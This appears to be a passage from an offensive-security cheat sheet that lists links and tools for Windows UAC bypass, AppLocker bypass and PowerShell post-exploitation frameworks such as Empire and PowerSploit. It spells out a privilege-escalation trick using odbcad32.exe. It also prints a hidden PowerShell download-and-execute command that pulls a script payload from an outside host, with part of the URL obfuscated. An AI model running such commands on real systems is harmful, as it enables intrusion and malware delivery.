 ### Bypassing UAC

-	https://www.greyhathacker.net/?p=796
-	https://download.pureftpd.org/pub/misc/UAC.cpp
-	https://github.com/hzeroo/Carberp/blob/master/source%20-%20absource/pro/all%20source/BJWJ/source/exploit/UAC_bypass.cpp
-	https://ibreak.software/a-windows-uac-bypass-using-device-manager/
-	https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
-	https://enigma0x3.net/2016/07/22/bypassing-uac-on-windows-10-using-disk-cleanup/
-	https://github.com/hfiref0x/UACME
-	https://habrahabr.ru/company/pm/blog/328008/ [Use Google translate, worth reading]
-	MSbuild Bypass To Unlock PowerShell Constrained Language Mode - https://gist.github.com/subTee/e5bb93b687b78df7c83042d7961697c3 or https://github.com/re4lity/subTee-gits-backups
-	https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/UAC-TokenMagic.ps1 DefCon 25
-	Reading your way around UAC
	-	https://tyranidslair.blogspot.co.uk/2017/05/reading-your-way-around-uac-part-1.html
	-	https://tyranidslair.blogspot.co.uk/2017/05/reading-your-way-around-uac-part-2.html
	-	https://tyranidslair.blogspot.co.uk/2017/05/reading-your-way-around-uac-part-3.html
-	UAC bypass via elevated .NET applications https://offsec.provadys.com/UAC-bypass-dotnet.html
-	UAC bypass using FwCplLua COM interface and HKCU mscfile registry entry hijack https://gist.github.com/hfiref0x/a044cb0ad425488e38556408b179cb61
-	How to be admin with debug right :
	-	launch a shell
	-	launch `odbcad32.exe`
	-	go to "Trace"
	-	choice a DLL for custom Trace
	-	select `cmd.exe`
	-	right clic on it and run it
	-	now you are admin without UAC or right

### Bypassing AppLocker

-	How to Bypass Windows AppLocker http://www.hacking-tutorial.com/hacking-tutorial/how-to-bypass-windows-applocker/

### PowerShell's Toolbox

-	Empire is a PowerShell and Python post-exploitation agent
	-	[GitHub](https://github.com/EmpireProject/Empire)
	-	[Docker](https://hub.docker.com/r/empireproject/empire/)
	-	[GUI Empire client application](https://github.com/EmpireProject/Empire-GUI)
-	PowerSploit - A PowerShell Post-Exploitation Framework https://github.com/PowerShellMafia/PowerSploit/
-	Sharpire - An implimentation of the Empire Agent in C# https://github.com/0xbadjuju/Sharpire
-	How To: Empire's Cross Platform Office Macro : https://www.blackhillsinfosec.com/empires-cross-platform-office-macro/ / https://medium.com/@malcomvetter/multi-platform-macro-phishing-payloads-3b688e8eff68
-	POC Highlighting Obfuscation Techniques used by FIN threat actors based on cmd.exe's replace functionality and cmd.exe/powershell.exe's stdin command invocation capabilities https://github.com/danielbohannon/Out-FINcodedCommand
-	PowerShell Download and Execute`"c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe" -NoP -Nonl -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('http:'+[char]0x2F+[char]0x2F+'monurldelamorkitu.com'+[char]0x2F+'xxx.php', \"$env.temp\xxx.jse\"); Invoke-Item \"$env.temp\xxx.jse\""` Le fichier téléchargé est du CSrcipt ou du WScript
-	PowerShell ScriptBlock Logging Bypass https://www.cobbr.io/ScriptBlock-Logging-Bypass.html + https://gist.github.com/cobbr/d8072d730b24fbae6ffe3aed8ca9c407
-	PowerShell Remote Download Cradle Generator & Obfuscator https://github.com/danielbohannon/Invoke-CradleCrafter
-	There are great tools and resources online to accomplish most any task in PowerShell, sometimes however, there is a need to script together a util for a specific purpose or to bridge an ontological gap. This is a collection of PowerShell utilities I put together either for fun or because I had a narrow application in mind. https://github.com/FuzzySecurity/PowerShell-Suite
-	Empire without PowerShell.exe https://bneg.io/2017/07/26/empire-without-powershell-exe/
-	PowerShell Obfuscation Detection Framework https://github.com/danielbohannon/Revoke-Obfuscation